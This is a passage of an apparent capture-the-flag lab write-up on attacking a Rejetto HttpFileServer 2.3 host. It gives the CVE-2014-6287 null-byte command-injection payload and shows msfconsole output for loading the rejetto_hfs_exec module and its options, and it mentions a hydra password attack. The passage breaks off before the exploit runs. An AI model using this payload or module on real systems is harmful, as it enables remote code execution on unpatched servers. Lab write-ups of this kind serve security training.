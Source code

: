 While there are no files to search through, there is a login section. We can come back later and  try a password attack with `hydra`.

Searching for `HttpFileServer 2.3 exploit` we find an exploit at https://www.exploit-db.com/exploits/39161. Additionally, there is also a Metasploit module `exploit/windows/http/rejetto_hfs_exec`.

```
me@kali:~/Workspace$ msfconsole -q
...
msf5 exploit(windows/local/ms16_032_secondary_logon_handle_privesc) > search httpfileserver

Matching Modules
================

   #  Name                                   Disclosure Date  Rank       Check  Description
   -  ----                                   ---------------  ----       -----  -----------
   0  exploit/windows/http/rejetto_hfs_exec  2014-09-11       excellent  Yes    Rejetto HttpFileServer Remote Command Execution

```

## Exploitation

We will use the Metasploit module `exploit/windows/http/rejetto_hfs_exec` to get a low privileged shell on the server. This module exploits the CVE-2014-6287 remote code execution vulnerability, which allows us to execute commands appended after a nullbyte `%00` like this:

```
http://10.10.10.8:80/search=%00{.exec|{cmd}.}
```

First, we select the module and take a look at the required options.
```
msf5 > use exploit/windows/http/rejetto_hfs_exec

msf5 exploit(windows/http/rejetto_hfs_exec) > options

Module options (exploit/windows/http/rejetto_hfs_exec):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   HTTPDELAY  10               no        Seconds to wait before terminating web server
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                      yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT      80               yes       The target port (TCP)
   SRVHOST    0.0.0.0          yes       The local host to listen on. This must be an address on the local machine or 0.0.0.0
   SRVPORT    8080             yes       The local port to listen on.
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                     no        Path to a custom SSL certificate (default is randomly generated)
   TARGETURI  /                yes       The path of the web application
   URIPATH                     no        The URI to use for this exploit (default is random)
   VHOST                       no        HTTP server virtual host
```
